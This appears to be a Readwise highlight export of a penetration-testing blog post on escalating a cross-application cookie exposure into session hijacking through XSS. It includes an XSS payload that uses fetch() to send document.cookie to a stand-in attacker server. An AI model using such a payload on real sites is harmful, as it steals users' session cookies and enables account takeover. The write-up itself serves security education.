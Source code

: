 ```yaml
---
author: Anurag Mondal
aliases:
  - "From Informational to Critical: Chaining & Elevating Web Vulnerabilities"
tags:
  - readwise/articles
url: https://www.netspi.com/blog/technical-blog/web-application-pentesting/uncovering-a-critical-vulnerability-through-chained-findings/
date: 2024-12-19
---
```

# From Informational to Critical: Chaining & Elevating Web Vulnerabilities

![rw-book-cover](https://www.netspi.com/wp-content/uploads/2024/12/12.11.24_TECH_Chaining-Elevating-Vulnerabilities_Social-1.webp)

## Highlights


## The Attack Chain Begins: Cross-Application Cookie Exposure 

 The issue stemmed from the fact that all **applications were sharing the same cookie storage on the client side**. This led to an **Informational Severity finding, due to the way cookies were scoped to the parent domain** (i.e., example.com). While each application had its own port, they were all vulnerable to **Cross-Application Cookie Exposure**, a scenario where cookies could be leaked between the different applications running on the same domain.
 
 Although important, this finding did not initially have a major impact, because none of the applications depended on session-based authentication. However, that changed when I noticed something unusual in Application C.
> [View Highlight](https://read.readwise.io/read/01jfdb6zs4r2pae670kdy4mdxa)

## XSS on a different origin

This discovery was pivotal. I could now attempt to hijack Application C’s session using the XSS vulnerability in Application A. However, there were several hurdles to overcome.

Nothing worked. I was about to give up when I noticed something crucial—the overwriting of the JSESSIONID cookie from Application C didn’t happen instantaneously. It took a few seconds for the cookie to be updated. So, I decided to add a 5-second delay before executing my payload: 
 ```html
 <script>setTimeout(() => { alert(document.cookie) }, 5000)</script>
```

 ![](https://www.netspi.com/wp-content/uploads/2024/12/12.11.24_EXEC_Chaining-Elevating-Vulnerabilities_4-1024x415.webp)
 This worked perfectly! I was able to access the JSESSIONID cookie issued by Application C, and I quickly crafted a stealthy payload to steal it: 
```html
<script>setTimeout(()=>{fetch('https://my-malicious-server.com?cookie='+document.cookie).then()},5000)</script>
```

> [View Highlight](https://read.readwise.io/read/01jfdbc0srb657wsyz6ef4vsbr)

## Full Attack Chain
 ![](https://www.netspi.com/wp-content/uploads/2024/12/12.11.24_EXEC_Chaining-Elevating-Vulnerabilities_6-1024x753.webp)
> [View Highlight](https://read.readwise.io/read/01jfdbddwd96vpzgrwxas4b811)

